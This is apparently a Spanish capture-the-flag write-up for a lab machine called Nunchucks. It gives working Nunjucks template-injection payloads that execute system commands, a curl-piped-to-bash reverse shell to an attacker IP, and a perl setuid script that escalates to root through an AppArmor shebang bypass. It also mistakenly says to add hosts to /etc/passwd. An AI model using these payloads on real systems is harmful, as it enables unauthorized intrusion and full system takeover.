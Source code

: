 ## Summary

- IP -> 10.10.11.122
- Ports -> TCP (22,80,443), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 4ubuntu0.3
    - 80 -> HTTP nginx 1.18.0
    - 443 -> HTTPS nginx 1.18.0

## Recon
Launchpad 4ubuntu0.3 -> Bionic
Launchpad nginx 1.18.0 -> Hirsuite 
Dentro de la maquina lo podremos averiguar 

❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.122  -oG allPorts**
❯ **nmap -sCV -p22,80 10.10.11.122 -oN targeted**

❯ **whatweb \http://10.10.11.122**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
* Nos manda u re-direct, por lo tanto vamos a agregar la url **nunchucks.htb** a nuestro /etc/passwd 

❯ **openssl s_client -connect 10.10.11.122:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443

Ahora nos disponemos a ver la paginas web en el navegador 
En el Wapalyzer podemos ver en 
* Lenguaje de programacion: **Node.js**

Encontramos un **Log in** pero no nos podemos loggear ni registrarnos
Ahora hacemos Fuzzing para buscar subdominios
❯ **gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url \https://nunchucks.htb -t 200** **-k** 
* Nos descubre un subdominio **store.nunchucks.htb**

❯ **wfuzz -c --hc=404 --hh=30587 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H “Host: FUZZ.nunchucks.htb” \https://nunchucks.htb**

Despues agregamos ese dominio a nuestro **/etc/passwd** y lo miramos en el navegador web

Nos pide que ingresemos un email, al momento de hacerlo vemos que nos devuleve el email en la pantalla de la pagina web.
Por lo que estamos frente a un **Server Side Template Injection** en node.js, por lo que procedemos a buscar en **Google** (**node.js** **nunjunks** **ssti** **(https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)**) el cual nos dara ejemplos de como usar esa vulnerabilidad.

Encontramos estos comando para poder introducisrlos en la pagina web.
{{7*7}}@test.com Si nos muestra la respuesta en este caso 49, estamos ante un SSTI, colocamos el @test.com por que es un requisito de que lo que entra es un correo electronico.

Ahora en la misma pagina de nunjunks nos dice que comando podemos colocar para poder injectar un comando
❯ **{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}@test.com**
* Tail -> Es para leer las ultimas 10 lineas de un archivo
Como esa entrada no se adecua a lo que nos indica que es de un correo, nos disponemos a abrir BurpSuite y desde ahi lo haremos 

❯ **burpsuite &> /dev/null &** Iniciamos el BurpSuite y lo mandamos a segundo plano
❯ **disown** Para independizar el proceso del BurpSuite
Lo que interceptemos lo mandamos al Repeater:
❯ **Ctrl + r** Para mandar lo del proxy al repeater

Esto lo colocaremos en el campo donde esta email, ademas debemos de escapar las comillas dobles internas
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('whoami')\\")()}}@test.com”**
Nos muestra el **whoami** de la maquina victima 

Como podemos ejecutar comandos, primero verificamos si podemos hacernos una peticion con **Curl** si es asi enconces podriamos hacernos una ReverShell para poder ganar acceso al sistema

❯ **python3 -m http.server 80** Nos montamos un servidor http 80
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web

Lo que trata de hacer la maquina al momento de ejecutar el **Curl** es tratar de obtener un **index.html** del servidor web. Por lo que nos disponemos a hacer un archivo que contenga una ReverShell y asi con Netcat podemos ganar acceso al sistema 

❯ **nano index.html**
	**#!/bin/bash**
	**bash -i >& /dev/tcp/10.10.14.2/443 0>&1**


## User
❯ **python3 -m http.server 80** Nos montamos un servidor http 80
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2 | bash')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web para obtener el index.html malicioso y despues hacer que nos lo interprete con Bash

* Hacemos el tratamiento de la consola y buscamos la primer flag -> user.txt

❯ **lsb_release -a** Miramos algunas caracteristicas de la maquina Linux 
❯ **hostname -I** Nos muestra solo la direccion IP (I=i mayuscula)


## Root
❯ **uname -a** Miramos informacion del Kernel
❯ **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid
❯ **id** Para ver si estamos en un grupo especial

❯ **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
❯ **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva

Pero esto no funciona por lo que buscamos **Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa.

❯ **find \-name \*apparmor\* 2>/dev/null** | grep -vE “proc|var|share”** (vE=quitas multiples palabras)

Ahi buscamos
❯ **/etc/apparmor.d** y nos dirigimos a esa ruta con el comando cd. 

Miramos el siguiente archivo 
❯**cat usr.bin.perl** para ver el contenido del archivo y dentro hay un archivo que esta ejecutando un script en perl. 
Por lo que miramos su contenido **/opt/backup.pl**

Despues probamos el siguiente comando
❯ **perl /opt/backup.pl** Este comando solo se puede ejecutar y leer pero no podemos modificarlo, por lo que debemos de buscar un bug para poder entrar.

Buscamos en **Google (apparmor perl bugs)** y nos vamos a la siguiente pagina **bugs.launchpad.net**.
**Shebang** es el nombre que recibe el par de caracteres #! que se encuentran en el inicio de los programas ejecutables interpretados

❯ **cd /tmp/** Nos vamos al directorio tmp ya ahi tenemos ejecucion y lectura 

❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva 
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";

❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.

Despues de ser root nos vamos al directorio con **cd /root/** y obtenemos la flag root.txt





